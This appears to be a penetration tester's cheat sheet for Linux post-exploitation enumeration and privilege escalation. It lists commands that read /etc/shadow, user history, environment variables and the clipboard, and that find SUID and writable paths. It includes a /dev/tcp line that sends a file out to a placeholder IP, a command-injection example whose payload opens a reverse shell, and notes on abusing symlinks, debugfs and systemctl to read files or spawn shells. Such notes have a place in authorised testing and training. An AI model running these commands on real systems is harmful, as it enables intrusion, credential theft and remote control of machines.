 # Enumeration
## Commands
```bash
# SUDO CONFIG
sudo -l

# CURRENT USER INFO
id || (whoami && groups) 2>/dev/null
## Current user PGP keys
gpg --list-keys 2>/dev/null


# ALL USERS
## List superusers
awk -F: '($3 == "0") {print}' /etc/passwd

## List all users and their groups
for i in $(cut -d":" -f1 /etc/passwd 2>/dev/null);do id $i;done 2>/dev/null | sort

## Logged in users
w


# SYSTEM INFO
## Running processes
ps aux

## Environment variables
(env || set) 2>/dev/null

## Network topology
cat /proc/net/fib_trie

## Domain name
hostname

## OS info
/etc/os-release


# FILES AND DIRECTORIES
## Sort files by date
ls -ltrh

## Writeable folders
find / -writable -type d 2>/dev/null

## Find SUID files
find / -perm -4000 2>/dev/null


# NETWORK
## List open ports
(netstat -punta || ss --ntpu)


# MISC
## Human readable JSON data (jq)
cat <json_file> | jq

## Download file from shell session
cat <file> /dev/tcp/<ip>/<port>

## PING SWEEP - If one suspects that there are other machines on the network --- Assuming that current machine is in a VM or a container
for i in {1..254}; do (ping -c 1 10.10.10.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```

## Directories / Files
```bash
~/
/tmp

/dev/shm

/opt

/var
/var/log
/var/www/html

/usr/sbin

/etc/apache2 
/etc/httpd
/etc/nginx

/etc/hosts
/etc/issue
/etc/motd
/etc/passwd 
/etc/group 
/etc/resolv.conf
/etc/shadow

/home/USERNAME/.bash_history
/home/USERNAME/.profile

/proc/sched_debug
/proc/net/fib_trie
/proc/version
/proc/self/environ
```

### Directory / file copy (symlink)
If there's a directory or a file that is being copied *(by some program, perhaps cron)*, one can either create a symlink or a direct spoof of the actual file so, that the copied item will be spoofed and contain the data the attacker wants.


# Clipboard
Look for anything interesting in the clipboard
```bash
if [ `which xclip 2>/dev/null` ]; then
    echo "Clipboard: "`xclip -o -selection clipboard 2>/dev/null`
    echo "Highlighted text: "`xclip -o 2>/dev/null`
  elif [ `which xsel 2>/dev/null` ]; then
    echo "Clipboard: "`xsel -ob 2>/dev/null`
    echo "Highlighted text: "`xsel -o 2>/dev/null`
  else echo "Not found xsel and xclip"
  fi
```

# Interesting groups
## Disk group
A user who is in the disk group, will probably have access to info on a given disk.

### debugfs
`debugfs` let's you debug a file system if you can read the device.       
With this, one can read files owned by a given user


# Bash file command execution
If a file executes a variable, one might be able to write payload to it.
## Example
**(program.sh)**
```bash
#!/bin/bash

echo -e "Input:\t"
read myvar

/bin/bash -c $myvar
```
The attacker can supply the following payload:
```
./program.sh '>& /dev/tcp/<IP>/<PORT> 0>&1'
```

# Services
[gtfobins help](https://gtfobins.github.io/gtfobins/systemctl/)

A service is defined by a `.service` file. `systemctl` is used to link it to `systemd` and then used again to start the service.      
What the service does is defined by the `.service` file.     

If a user has access to the `systemctl` binary they can make a service which can read file or even spawn a reverse shell.


# Raw image file conversion to actual image
Raw image data can be converted to an actual image to reveal its content.
## Gimp
1. Select the file and its type (Raw image data)
2. Select resolution (`cat /sys/class/graphics/fb0/virtual_size` if unknown)
3. Edit image types
4. Export as png